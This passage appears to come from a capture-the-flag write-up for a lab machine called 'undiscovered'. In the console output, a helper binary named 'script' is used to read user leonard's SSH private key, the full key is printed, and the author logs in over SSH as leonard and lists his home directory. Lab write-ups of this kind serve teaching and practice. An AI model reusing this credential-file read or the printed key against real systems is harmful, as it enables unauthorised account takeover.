 ```console
william@undiscovered:~$ ./script .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAwErxDUHfYLbJ6rU+r4oXKdIYzPacNjjZlKwQqK1I4JE93rJQ
HEhQlurt1Zd22HX2zBDqkKfvxSxLthhhArNLkm0k+VRdcdnXwCiQqUmAmzpse9df
YU/UhUfTu399lM05s2jYD50A1IUelC1QhBOwnwhYQRvQpVmSxkXBOVwFLaC1AiMn
SqoMTrpQPxXlv15Tl86oSu0qWtDqqxkTlQs+xbqzySe3y8yEjW6BWtR1QTH5s+ih
hT70DzwhCSPXKJqtPbTNf/7opXtcMIu5o3JW8Zd/KGX/1Vyqt5ememrwvaOwaJrL
+ijSn8sXG8ej8q5FidU2qzS3mqasEIpWTZPJ0QIDAQABAoIBAHqBRADGLqFW0lyN
C1qaBxfFmbc6hVql7TgiRpqvivZGkbwGrbLW/0Cmes7QqA5PWOO5AzcVRlO/XJyt
+1/VChhHIH8XmFCoECODtGWlRiGenu5mz4UXbrVahTG2jzL1bAU4ji2kQJskE88i
72C1iphGoLMaHVq6Lh/S4L7COSpPVU5LnB7CJ56RmZMAKRORxuFw3W9B8SyV6UGg
Jb1l9ksAmGvdBJGzWgeFFj82iIKZkrx5Ml4ZDBaS39pQ1tWfx1wZYwWw4rXdq+xJ
xnBOG2SKDDQYn6K6egW2+aNWDRGPq9P17vt4rqBn1ffCLtrIN47q3fM72H0CRUJI
Ktn7E2ECgYEA3fiVs9JEivsHmFdn7sO4eBHe86M7XTKgSmdLNBAaap03SKCdYXWD
BUOyFFQnMhCe2BgmcQU0zXnpiMKZUxF+yuSnojIAODKop17oSCMFWGXHrVp+UObm
L99h5SIB2+a8SX/5VIV2uJ0GQvquLpplSLd70eVBsM06bm1GXlS+oh8CgYEA3cWc
TIJENYmyRqpz3N1dlu3tW6zAK7zFzhTzjHDnrrncIb/6atk0xkwMAE0vAWeZCKc2
ZlBjwSWjfY9Hv/FMdrR6m8kXHU0yvP+dJeaF8Fqg+IRx/F0DFN2AXdrKl+hWUtMJ
iTQx6sR7mspgGeHhYFpBkuSxkamACy9SzL6Sdg8CgYATprBKLTFYRIUVnZdb8gPg
zWQ5mZfl1leOfrqPr2VHTwfX7DBCso6Y5rdbSV/29LW7V9f/ZYCZOFPOgbvlOMVK
3RdiKp8OWp3Hw4U47bDJdKlK1ZodO3PhhRs7l9kmSLUepK/EJdSu32fwghTtl0mk
OGpD2NIJ/wFPSWlTbJk77QKBgEVQFNiowi7FeY2yioHWQgEBHfVQGcPRvTT6wV/8
jbzDZDS8LsUkW+U6MWoKtY1H1sGomU0DBRqB7AY7ON6ZyR80qzlzcSD8VsZRUcld
sjD78mGZ65JHc8YasJsk3br6p7g9MzbJtGw+uq8XX0/XlDwsGWCSz5jKFDXqtYM+
cMIrAoGARZ6px+cZbZR8EA21dhdn9jwds5YqWIyri29wQLWnKumLuoV7HfRYPxIa
bFHPJS+V3mwL8VT0yI+XWXyFHhkyhYifT7ZOMb36Zht8yLco9Af/xWnlZSKeJ5Rs
LsoGYJon+AJcw9rQaivUe+1DhaMytKnWEv/rkLWRIaiS+c9R538=
-----END RSA PRIVATE KEY-----
```
Now that we have his private key, lets try to login as user leonard.

### Shell as leonard
```console
william@undiscovered:~$ ./script .ssh/id_rsa > leonard
william@undiscovered:~$ chmod 600 leonard 
william@undiscovered:~$ ssh -i leonard leonard@undiscovered 
The authenticity of host 'undiscovered (127.0.1.1)' can't be established.
ECDSA key fingerprint is SHA256:4FZwE+zBYXSpNWyxNclsv843P0McfDHD9nPMOH26bek.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'undiscovered' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 packages can be updated.
0 updates are security updates.


Last login: Fri Sep  4 22:57:43 2020 from 192.168.68.129
leonard@undiscovered:~$ 
```
### Listing the contents of home directory
```console
leonard@undiscovered:~$ ls -la
total 36
drwxr-x--- 5 leonard leonard 4096 Sep  9 21:45 .
drwxr-xr-x 4 root    root    4096 Sep  4 22:56 ..
-rw------- 1 root    root       0 Sep  9 21:45 .bash_history
-rw-r--r-- 1 leonard leonard 3771 Sep  4 22:16 .bashrc
drwx------ 2 leonard leonard 4096 Sep  4 18:14 .cache
```